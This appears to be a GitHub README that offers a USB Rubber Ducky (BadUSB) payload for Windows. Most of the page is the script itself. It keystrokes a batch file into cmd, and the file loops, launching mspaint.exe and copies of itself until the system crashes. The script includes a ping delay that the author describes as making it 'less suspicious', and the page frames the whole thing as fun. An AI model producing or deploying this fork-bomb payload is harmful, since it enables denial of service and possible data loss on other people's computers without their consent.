 # About...
Version: 1.0

Author: BlueArduino20

# Fork Bomb for Rubber Ducky (For Windows)
Really basic script to crash Windows executing exponencially "mspaint.exe" and the same bat. It could be fun!

It's designed for the USB Rubber Ducky, but you can convert it for Teensy with Duckuino.js (By d4n5h): https://github.com/d4n5h/Duckuino

Anyway, here you've got the code:

# Code for Rubber Ducky

<pre><code>REM Fork Bomb for Windows. By: BlueArduino20
REM Let's give windows time to recognize our BadUSB
DELAY 2000
GUI r
ENTER
DELAY 100
STRING cmd
ENTER
DELAY 100
STRING copy con F.bat
ENTER
REM Some bat delay (Less suspicious)
STRING >nul ping 127.0.0.1 -n 10
ENTER
STRING :A
ENTER
STRING start mspaint.exe && start F.bat
ENTER
STRING GOTO A
ENTER
CONTROL z
ENTER
DELAY 100
STRING start F.bat</pre></code>
